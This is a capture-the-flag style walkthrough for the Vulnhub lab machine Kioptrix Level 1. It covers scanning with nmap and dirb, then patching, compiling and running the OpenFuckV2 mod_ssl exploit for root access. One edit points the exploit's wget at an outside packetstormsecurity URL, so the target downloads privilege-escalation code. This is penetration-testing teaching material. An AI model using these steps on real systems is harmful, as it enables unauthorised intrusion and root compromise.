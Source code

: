 ```yaml
---
title: "Kioptrix Level 1 Writeup"
date: 2020-03-03T15:47:35+02:00
draft: false
Tags: [
    "Writeups",
    "Vulnhub",
]
---
```

### This machine is from vulnhub you can download it [here](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).
* After downloading the machine you will open the .vmx file in VMware or .vmdk with VirtualBox.

* It's a preconfigured machine it must work directly, but you may need to change the network adapter to NAT and the version to linux and kernal version you work on, then power it on ...

**have fun**... ![](/images/kioptrix1/1.png)

### 0. Getting VM's IP:
* using **Netdiscover** or **Nmap**
```java
$ nmap -sn 192.168.1.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-01 17:18 EET
Nmap scan report for 192.168.1.1
Host is up (0.0045s latency).
Nmap scan report for 192.168.1.7
Host is up (0.00016s latency).
Nmap scan report for 192.168.1.104 << kioptrix ip
Host is up (0.0033s latency).
```
### 1. Enumeration:
* #### Nmap:
  * To discover open ports and services running on our machine
```yml
$ nmap -T4 -A -v 192.168.1.104
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)
80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp open rpcbind 2 (RPC #100000)
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open status 1 (RPC #100024)
MAC Address: 50:3E:AA:BE:1F:AB (Tp-link Technologies)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
```
After scanning there are lots of running services:
* Apache 
* Openssh
* RPC
* Samba

### 2. Web Enumeration:
* Just apache default page.
![](/images/kioptrix1/2.png)
* tried to enumerate, if there any hidden directories:
```text
$ dirb http://192.168.1.104/ /usr/share/wordlists/dirb/common.txt

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.104/ ----
+ http://192.168.1.104/~operator (CODE:403|SIZE:273)
+ http://192.168.1.104/~root (CODE:403|SIZE:269)
+ http://192.168.1.104/cgi-bin/ (CODE:403|SIZE:272)
+ http://192.168.1.104/index.html (CODE:200|SIZE:2890)
==> DIRECTORY: http://192.168.1.104/manual/
==> DIRECTORY: http://192.168.1.104/mrtg/
==> DIRECTORY: http://192.168.1.104/usage/

---- Entering directory: http://192.168.1.104/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.1.104/mrtg/ ----
+ http://192.168.1.104/mrtg/index.html (CODE:200|SIZE:17318)

---- Entering directory: http://192.168.1.104/usage/ ----
+ http://192.168.1.104/usage/index.html (CODE:200|SIZE:3704)
```
* nothing useful.                              
### Searching for exploits:
* To do so there are many ways; 
  * [Searchsploit](https://www.exploit-db.com/searchsploit) (local exploit db) 
  * [Exploit DB](https://exploit-db.com/) 
  * [Security Focus](www.securityfocus.com)
```text
# searchsploit apache mod_ssl
```
![Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Bof | exploits/unix/remote/764.c](/images/kioptrix1/3.png)
* now we got an exploit matches our version lets try it out (the 2nd one 764.c) ..

Opening the link for this exploit's author, it needs to be updated before using it:
* To deal with it open the script: ``nano /usr/share/exploitdb/exploits/unix/remote/764.c``
* First install ``libssl-dev`` >> ``$ sudo apt-get install libssl-dev``
* Add:
  * #include <openssl/rc4.h>
  * #include <openssl/md5.h> 
* search for ``wget`` and replace the link with this one : ``https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c``
* search for ``get_server_hello`` then replace it with ``const unsigned char *p, *end;``

* copy the script to desktop to run it: ``$ cp /usr/share/exploitdb/exploits/unix/remote/764.c``

* compile it: ``$ gcc -o openfuck 764.c -lcrypto``
* run it with no parameters at first: ``$ ./openfuck`` 
![As you can see the version of our running apache and the parameter we shall use ...](/images/kioptrix1/4.png)
* we will use the second one >> ``$ ./openfuck 0x6b 192.168.1.104  -c  42``
![As you can see the script worked and we got root access ...](/images/kioptrix1/5.png)

* ``$ cat  /var/mail/root``
![Got our flag#](/images/kioptrix1/6.png)
* note: we could do the same searchsploit search on Openssh and Samba..Both of them are outdated and maybe they have exploits.. but starting with apache just worked fine with me.
  * i think we could get root with samba, yeah.. try it yourself.

I hope you enjoyed ...
